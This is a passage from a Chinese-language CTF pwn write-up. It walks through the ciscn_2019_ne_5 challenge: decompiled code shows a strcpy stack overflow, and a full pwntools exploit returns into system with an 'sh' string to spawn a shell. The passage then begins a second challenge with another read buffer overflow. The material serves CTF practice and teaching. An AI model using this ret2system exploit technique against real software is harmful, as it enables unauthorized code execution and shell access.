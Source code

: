 ```c
}
```

先输入密码为administrator，然后进入菜单。

问题出在GetFlag里：

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF
  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

因为有fflush，其中的字符串sh可以代替/bin/sh

>    ROPgadget  --binary ciscn_2019_ne_5  --string "sh"

```python
from pwn import *
context(log_level='DEBUG')
io = process("./ciscn_2019_ne_5")
elf = ELF("./ciscn_2019_ne_5")
#io = remote()
sh_addr = 0x080482ea
sys_addr = elf.plt['system']
payload = 'a'*(0x48+4)+ p32(sys_addr)+p32(0xdeadbeef)+p32(sh_addr)
io.recvline()
io.sendline("administrator")
io.recvline()
io.sendline("1")
io.recvline()
io.sendline(payload)
io.recv()
io.sendline("4")
io.interactive()
```

## 0x14.铁人三项(第五赛区)_2018_rop

buf那里可以覆盖。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

